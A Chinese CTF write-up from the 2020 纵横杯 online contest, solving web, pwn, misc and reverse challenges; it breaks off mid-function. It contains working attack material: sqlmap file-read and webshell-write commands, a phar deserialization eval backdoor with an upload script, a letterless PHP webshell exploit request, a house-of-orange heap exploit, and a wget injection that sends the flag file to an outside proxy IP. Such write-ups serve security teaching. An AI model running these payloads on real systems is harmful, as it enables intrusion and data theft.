# 纵横杯2020 - 线上赛 - BlueThanos
[toc]
## WEB
### easyci
#### 登录sql注入
sql 注入，没过滤，直接sqlmap。数据库没东西，可以读文件：
`sqlmap -r 1.txt --file-read="/etc/passwd" --threads 10`

测试了下当前用户为root@localhost
#### 获取网站虚拟路径

测了一下，可以写文件，但是不知道web目录。读 web 目录：
`sqlmap -r 1.txt --technique=B  --file-read="/etc/apache2/sites-enabled/000-default.conf" --threads 10`



目录在 `/var/secret/html`。
#### 写webshell
写shell：
`sqlmap -r 1.txt --technique=B  --file-write="shell.php"  --file-dest="/var/sercet/html/shell.php"  --threads 10`

找flag：


`cat /etc/yooooflagggggggggggggggggggg`

### ezcms
#### 登录后台
源码里有后台密码，登陆后台。
admin:admin868
#### 后台SSRF
后台SSRF，但是有http前缀的check，参考https://github.com/yzmcms/yzmcms/issues/53。



### hello_php
phar 反序列化写 config.php 里的 title。
生成 phar 文件：
``` php
<?php
    class Config{
        public $title = "gml';@eval(\$_POST[gml]);\$a='gml";
        public $comment="";
        public $logo_url="";
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new Config();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```
需要爆破下时间，写脚本上传+爆破时间：
``` python
import requests
import time
from hashlib import md5


session = requests.Session()

paramsGet = {"upload":""}
paramsMultipart = [('file', ('phar.jpg', open("phar.phar","r").read(), 'image/jpeg'))]
headers = {"Origin":"http://eci-2ze0xe7juyhmgal2cu9g.cloudeci1.ichunqiu.com","Cache-Control":"max-age=0","Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","Upgrade-Insecure-Requests":"1","User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36","Referer":"http://eci-2ze0xe7juyhmgal2cu9g.cloudeci1.ichunqiu.com/admin.php","Connection":"close","Accept-Language":"zh-CN,zh;q=0.9"}
cookies = {"chkphone":"acWxNpxhQpDiAchhNuSnEqyiQuDIO0O0O","Hm_lpvt_2d0601bd28de7d49818249cf35d95943":"1608962226","__jsluid_h":"e44d5dfdb4d1861e3ab11824d5cf07e8","PHPSESSID":"pedm42uvpovcga0el3gv1qe342","UM_distinctid":"17578c5b7b9b79-0a4a0a955b18cb-32657006-384000-17578c5b7ba641","Hm_lvt_2d0601bd28de7d49818249cf35d95943":"1608649420,1608875993"}
response = session.post("http://eci-2ze0xe7juyhmgal2cu9g.cloudeci1.ichunqiu.com/admin.php", files=paramsMultipart, params=paramsGet, headers=headers, cookies=cookies)

print("Status code:   %i" % response.status_code)
print("Response body: %s" % response.content)


t = int(time.time())
for i in range(200):
    tt = t - i
    file_url = "http://eci-2ze0xe7juyhmgal2cu9g.cloudeci1.ichunqiu.com/static/%s.jpg"%md5(str(tt)).hexdigest()
    if requests.get(file_url).status_code!=404:
        print file_url
        requests.get("http://eci-2ze0xe7juyhmgal2cu9g.cloudeci1.ichunqiu.com/index.php",
                     params={'img': 'phar://static/%s.jpg' % md5(str(tt)).hexdigest()},
                     proxies={'http': 'http://127.0.0.1:8080'})
        exit(0)

```
有 disable_function 限制，php7 那个通杀脚本，先写进去：


访问：


### 大家一起来审代码 
>思路:默认密码+后台getshell    

#### 1.源码下载
http://eci-2ze9kzucnjo3cdf6obgp.cloudeci1.ichunqiu.com:80/www.zip

#### 2.版本确认
http://eci-2ze9kzucnjo3cdf6obgp.cloudeci1.ichunqiu.com:80/data/admin/ver.txt      

v10.1

#### 3.登录后台
根据源码找到后台路径：    
后台路径：http://eci-2ze9kzucnjo3cdf6obgp.cloudeci1.ichunqiu.com:80/adm1n/    
经测试时默认的用户密码：    
>admin:admin    

#### 后台getshell找1day
https://www.freebuf.com/vuls/241106.html
有3个后台命令执行的1day:    
1. /adm1n/admin_ip.php 
2. /adm1n/admin_weixin.php
3. /adm1n/admin_notify.php

漏洞1和3 打补丁有强过滤。
```php
// /adm1n/admin_ip.php 
if (preg_match('/^((?:25[0-5]|2[0-4]\d|1\d\d|[1-9]\d|\d)(?:[.](?:25[0-5]|2[0-4]\d|1\d\d|[1-9]\d|\d)){3}.)*$/', $ip)!==1)
        die(" 不要想着写入webshell！！");
```
```php
// /adm1n/admin_notify.php
$notify1= $_POST['notify1'];
if(preg_match("/\(|\)|\`/",$notify1)){ die("不要尝试rce哦！！！");}
$notify2= $_POST['notify2'];
if(preg_match("/\(|\)|\`/",$notify2)){ die("不要尝试rce哦！！！");}
$notify3= $_POST['notify3'];
if(preg_match("/\(|\)|\`/",$notify3)){ die("不要尝试rce哦！！！");}
```

漏洞2打补丁有弱过滤-无字母webshell就可以绕过(Ref:https://xz.aliyun.com/t/8107#toc-1)。    

```
foreach (array_keys($_POST) as $arg )
{
    $$arg=preg_replace("/a|e|i|o|u|s|t/i","",$$arg);
}
```

让php语句逃逸出来 payload: 
```php
// assert($_POST['_']) 
");$_+=+"!((%)("^"@[[@[\\";$__+=+"!+/(("^"~{`{|";$___+=+$$__;$_($___[_]);+//
```
EXP：
```
POST /adm1n/admin_weixin.php?action=set HTTP/1.1
Host: eci-2zej9k7i0kqc3lhkk00p.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 344
Origin: http://eci-2zej9k7i0kqc3lhkk00p.cloudeci1.ichunqiu.com
Connection: close
Referer: http://eci-2zej9k7i0kqc3lhkk00p.cloudeci1.ichunqiu.com/adm1n/admin_weixin.php
Cookie: __jsluid_h=cac8aa13d7b1b415e9c4097ff6e2d1ea; PHPSESSID=ed24c50089ec9ee84b34dc07410b4de4
Upgrade-Insecure-Requests: 1

url=&title=&ckmov_url=&dpic=&follow=&noc=&help=&dwz=n&dwztoken=&sql_num=0&msg1a=&msg1b=&msg2a=&msg2b=&msg3a=&msg3b=&msg4a=&msg4b=&msg5a=phpinfo%28%29&msg5b=%22%29%3B%24_+%3D+%22%21%28%28%25%29%28%22%5E%22%40%5B%5B%40%5B%5C%5C%22%3B%24__+%3D+%22%21%2B%2F%28%28%22%5E%22%7E%7B%60%7B%7C%22%3B%24___+%3D+%24%24__%3B%24_%28%24___%5B_%5D%29%3B+%2F%2F
```


然后访问：
>http://eci-2zej9k7i0kqc3lhkk00p.cloudeci1.ichunqiu.com/data/admin/weixin.php
POST DATA:
_=system('cat /flag');

获取flag



## PWN

### wind_farm_panel

经典house of orange

```python
from pwn import *

context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./pwn")
libc   = ELF("./libc-2.23.so")

#io    = process(myelf.path,env={"LD_PRELOAD" : libc.path})
io     = remote("182.92.203.154",28452)
uu64        = lambda data             :  u64(data.ljust(8, b'\0'))
sla         = lambda delim,data       :  (io.sendlineafter(delim, data))
sa          = lambda delim,data       :  (io.sendafter(delim, data))
add         = lambda index,size,data  :  (sla(">> ","1"),sla("on(0 ~ 5):",str(index)),sla("turbine: ",str(size)),sa("name: ",data))
show        = lambda index            :  (sla(">> ","2"),sla("viewed: ",str(index)))
edit        = lambda index,data       :  (sla(">> ","3"),sla("turbine: ",str(index)),sa("input: ",data))

#gdb.attach(io,"")

add(0,130,"a"*136+p64(0xf71))
add(1,0x1000,"xuan")
add(2,0x200,"xuan")

# leak libc
edit(0,"a"*144+"b"*8)
show(0);io.recvuntil("b"*8)
libc_addr = uu64(io.recv(6))-0x3c5188
log.success(hex(libc_addr))
edit(0,"a"*136+p64(0xf71))
libc.address = libc_addr

# leak heap
edit(0,"a"*152+"b"*8)
show(0);io.recvuntil("b"*8)
heap_addr = uu64(io.recv(6))
log.success(hex(heap_addr))
edit(0,"a"*136+p64(0xf71))

# unsortedbin attack
data = "a"*(0x290)
payload  = "/bin/sh\x00" + p64(0x61) 
payload += p64(0) + p64(libc.symbols['_IO_list_all']-0x10) 
payload += p64(0) + p64(1)
payload = payload.ljust(0xd8, "\x00")
payload += p64(heap_addr + 0x210 + 0xd8 + 0x8)+p64(libc.symbols['system'])*8
edit(0,data+payload)

# tigger
sla(">> ","1")
sla("on(0 ~ 5):",str(4))
sla("turbine: ",str(200))

io.interactive()
```

## MISC

### 签到

八进制转ascii
```python
c = [0o146, 0o154, 0o141, 0o147, 0o173, 0o167, 0o63, 0o154, 0o143, 0o157, 0o155, 0o145, 0o137, 0o164, 0o157, 0o137, 0o62, 0o157, 0o156, 0o147, 0o137, 0o150, 0o63, 0o156, 0o147, 0o137, 0o142, 0o145, 0o61, 0o175]
print "".join(chr(i) for i in c)
```
### babymaze1
nc上去可以看到一个迷宫游戏



尝试手动完了一下，提示太慢了，所以编写BFS算法解决
BFS算法输出路径
```c++
#include<iostream>
#include<queue>
#include<stack>
using namespace std;
struct Node
{
    int row;
    int col;
};
#define MAXN 200
#define MAXM 200
int visit[MAXN][MAXM];
Node father[MAXN][MAXM];
queue<Node> q;
char* direction="wsad";  // 四个方向
int dx[4] = {-1,1,0,0};  // 四个方向对应的x方向增量
int dy[4] = {0,0,-1,1 };  // 四个方向对应的y方向增量
int maze[MAXN][MAXM];   // 迷宫各个点是否能走
int dist[MAXN][MAXM];   // 每个点到入口的最短距离
int last_dir[MAXN][MAXM];   // 每个点是从其父节点的经过何种方向走到的
int ROW,COL, xs , ys,  xt , yt; // 程序输入的行数、列数、开始点横纵坐标、终止点横纵坐标
void bfs(int row, int col)
{
/*从第row行第col列开始进行bfs遍历，，注意，改点为入口点*/
    Node n;
    n.row=row;
    n.col=col;
    visit[row][col]=1;  // 设置已被访问
    father[row][col]=n; // 设置父亲节点为自己
    q.push(n);
    while (!q.empty())
    {
        Node front=q.front(); // 从队列头取出一个节点
        q.pop();
        // 依次遍历该结点的四个方向，是否走的通
        for (int i = 0;i < 4;i++)
        {
            int x= front.row + dx[i];
            int y= front.col + dy[i];
            // 如果某个方向的一点没出界，且没访问过，并且可以走
            if (x >= 0 && x<ROW && y >= 0 && y < COL && !visit[x][y] && maze[x][y])
            {
                Node node;
                node.row=x;
                node.col=y;
                visit[x][y]=1;
                father[x][y]=front;
                dist[x][y]=dist[front.row][front.col]+1;  // 到入口最短距离为其父节点到入口最短距离+1
                last_dir[x][y]=i;   
                q.push(node); // 把改点推入队列
            }
        }
    }

}

void print_path(int row, int col)
{
    stack<char> path;       // 用来保存输出路径
    /*从第row行第col列开始往前进行路径遍历，注意，改点为出口点*/
    while (true)
    {
        int father_row = father[row][col].row;
        int father_col = father[row][col].col;
        // 遍历的终止条件为到了入口点，还记得吗？入口点的父亲节点就是自己 ==> Line 27
        if (father_row == row && father_col == col)  //到了入口点
        {
            break;
        }
        else //没到入口点
        {
            path.push(direction[last_dir[row][col]]); // 记录该点是怎么从父亲节点过来的
            row=father_row;
            col=father_col;
        }
    }
    while (!path.empty())  // 输出路径
    {
        cout<<path.top();
        path.pop();
    }
}
char g[200][200];
int main()
{
    freopen("/Users/wchhlbt/Desktop/map.txt","r",stdin);
    int n = 0;
    while(gets(g[n])){
        n++;
    }
    int m = strlen(g[1]);
    // cout << n << " " << m << endl;
    // for(int i = 0; i<=n; i++){
    //     printf("%s\n", g[i]);
    //     // printf("%d\n", strlen(g[i]));
    // }
    ROW = n;
    COL = m;
    for(int i = 0; i<n; i++){
        for(int j = 0; j<m; j++){
            if(g[i][j]=='#')
                maze[i][j] = 0;
            else
                maze[i][j] = 1;
            if(g[i][j] == '*'){
                xs = i;
                ys = j;
            }
            if(g[i][j]=='$'){
                xt = i;
                yt = j;
            }

        }
    }

    memset(visit, 0, sizeof(visit)); 
    bfs(xs,ys);
    print_path(xt,yt);
    return 0;
}

```

使用pwntools处理交互
```python
from pwn import * 
import hashlib
import re
context(arch='amd64', os='linux', log_level='debug')
# context(arch='amd64', os='linux', log_level='error')
# context(arch='amd64', os='linux')

r = remote("182.92.203.154", 11001)

print('start!')

def print_hex(bytes):
    l = [hex(int(i)) for i in bytes]
    print(" ".join(l))

response = str(r.recvuntil('Please press any key to start.'))
# print(type(response))
print(response)
r.sendline('')
response = str(r.recvuntil('>'))
print(type(response))
response = response.replace('b','').replace('>','').replace('\'','')
mmap = response.split('\\n')
with open('map.txt',"w") as f:
    for m in mmap:
        f.write(m+'\n')

exe = './bfs1'
f1 = os.popen(exe)
data = f1.readlines()
f1.close()
print(type(data))
print(data)
r.sendline(data[0])


def solve():
    response = str(r.recvuntil('your win'))
    print(response)

    response = str(r.recvuntil('>'))
    print(response)
    response = response.replace('b','').replace('>','').replace('\'','')
    print(response)
    response = response[2:]
    mmap = response.split('\\n')
    with open('map.txt',"w") as f:
        for m in mmap:
            f.write(m+'\n')

    exe = './bfs1'
    f2 = os.popen(exe)
    data = f2.readlines()
    f2.close()
    print(type(data))
    print(data)
    r.sendline(data[0])
solve()
print("================")    
solve()
print("================")
solve()
print("================")
solve()
print("================")
solve()
print("================")
r.interactive()
```


### babymaze2
非预期，直接 python 执行命令：




### 马赛克

昨晚上睡觉之前正好看到：[【含视频】如果马赛克等于安全，那马赛克 + AI 等于？：](https://mp.weixin.qq.com/s/8U0BwbS3w739LiQd7OjgTA)

故直接工具：[https://github.com/beurtschipper/Depix](https://github.com/beurtschipper/Depix)


```bash
➜ git:(main) ✗ python3 depix.py -p images/testimages/mosaic.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o output.png
```



flag{0123468abd68abd0123}


### magic_download

非预期解：通过回车绕过正则
payload:  
`-e http_proxy=47.93.233.159:8888 --method=POST --body-file=/home/ctf/flag  \\n127.0.0.1`



## REVERSE

### friendlyRE
程序逻辑比较乱，不好分析。strings 查看，发现一个 base64 表，后面还有个 base64 编码的串。IDA 打开，看这两个串的 xref，找到了一些 base64 编码的操作。继续跟进 xref 可以看出程序逻辑：main 后面的一段代码读入了 flag，然后 flag 被加密后，再 base64 编码，然后和内置的那个串进行比较。base64 的表还和普通的不同。全部照着实现一遍，就可以倒推出 flag。

```python
SBox = b'\xd6\x90\xe9\xfe\xcc\xe1=\xb7\x16\xb6\x14\xc2(\xfb,\x05+g\x9av*\xbe\x04\xc3\xaaD\x13&I\x86\x06\x99\x9cBP\xf4\x91\xef\x98z3T\x0bC\xed\xcf\xacb\xe4\xb3\x1c\xa9\xc9\x08\xe8\x95\x80\xdf\x94\xfau\x8f?\xa6G\x07\xa7\xfc\xf3s\x17\xba\x83Y<\x19\xe6\x85O\xa8hk\x81\xb2qd\xda\x8b\xf8\xeb\x0fKpV\x9d5\x1e$\x0e^cX\xd1\xa2%"|;\x01!x\x87\xd4\x00FW\x9f\xd3\'RL6\x02\xe7\xa0\xc4\xc8\x9e\xea\xbf\x8a\xd2@\xc78\xb5\xa3\xf7\xf2\xce\xf9a\x15\xa1\xe0\xae]\xa4\x9b4\x1aU\xad\x9320\xf5\x8c\xb1\xe3\x1d\xf6\xe2.\x82f\xca`\xc0)#\xab\rSNo\xd5\xdb7E\xde\xfd\x8e/\x03\xffjrml[Q\x8d\x1b\xaf\x92\xbb\xdd\xbc\x7f\x11\xd9\\A\x1f\x10Z\xd8\n\xc11\x88\xa5\xcd{\xbd-t\xd0\x12\xb8\xe5\xb4\xb0\x89i\x97J\x0c\x96w~e\xb9\xf1\t\xc5n\xc6\x84\x18\xf0}\xec:\xdcM y\xee_>\xd7\xcb9H'


def sub_1627B0(x):
    v3 = SBox[x & 255] | SBox[x >> 8 & 255] << 8 | SBox[x >> 16 & 255] << 16 | SBox[x >> 24] << 24
    res = ((v3 >> 8) | (v3 << 24)) ^ ((v3 >> 14) | (v3 << 18)) ^ ((v3 >> 22) | (v3 << 10)) ^ v3 ^ ((v3 >> 30) | (4 * v3))
    return res & 0xffffffff


def sub_162740(a1, a2, a3, a4, a5):
    return a1 ^ sub_1627B0(a5 ^ a4 ^ a3 ^ a2)


def sub_162510(x):
    v3 = SBox[x & 255] | SBox[x >> 8 & 255] << 8 | SBox[x >> 16 & 255] << 16 | SBox[x >> 24] << 24
